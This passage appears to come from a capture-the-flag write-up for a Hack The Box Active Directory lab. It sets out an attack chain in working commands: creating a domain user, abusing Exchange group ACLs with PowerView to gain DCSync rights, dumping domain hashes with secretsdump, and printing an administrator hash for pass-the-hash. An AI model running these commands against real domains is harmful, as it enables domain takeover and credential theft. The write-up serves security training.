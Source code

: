 ### Exchange Windows - ACLs abuse
***
A privilege escalation is possible from the Exchange Windows permissions security group to compromise an Active Directory domain.

References - exploit :
* <https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync>
* <https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md>
* <https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/>
* <https://github.com/EmpireProject/Empire>

Add new user in "Exchange Windows Permissions" security group.

```terminal
 PS c:\Users\svc-alfresco\Documents> net user privateuser45 zrc45pctVSGcNp /add /domain
 PS c:\Users\svc-alfresco\Documents>net localgroup "Remote Management Users" privateuser45 /add
 PS c:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" privateuser45 /add
```
"Remote Management Users" local group allow connection with evil winrm.

Set the Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All to increase rights on the domain object with PowerViews:

```terminal
$ evil-winrm -i 10.10.10.161 -u privateuser45 -p zrc45pctVSGcNp -s "/root/Documents/exploit-Win-RM/Empire/data/module_source/situational_awareness/network/"
 PS c:\Users\privateuser45\Documents> powerview.ps1
 PS c:\Users\privateuser45\Documents> menu
 PS c:\Users\privateuser45\Documents> Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity privateuser45 -Rights DCSync
```
We have now sufficient rights to dump all domain credentials (Kerberos keys, hashes, etc.).

### DCSync Attack
***
DCSync is an attack that allows an attacker to simulate the behavior of Domain Controller (DC) in order to retrieve password hash of the entire domain via domain replication.

References - DCSync Attack :
* <https://medium.com/@airman604/dumping-active-directory-password-hashes-deb9468d1633>
* <https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync>

Reference - secretdump.py : <https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py>

```terminal
$ python secretsdump.py -just-dc HTB.LOCAL/private45@10.10.10.161
```

We retrieve the html hash of administrator to success a connection with wmiexec : `Hash Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::`

### Pass-The-Hash
***
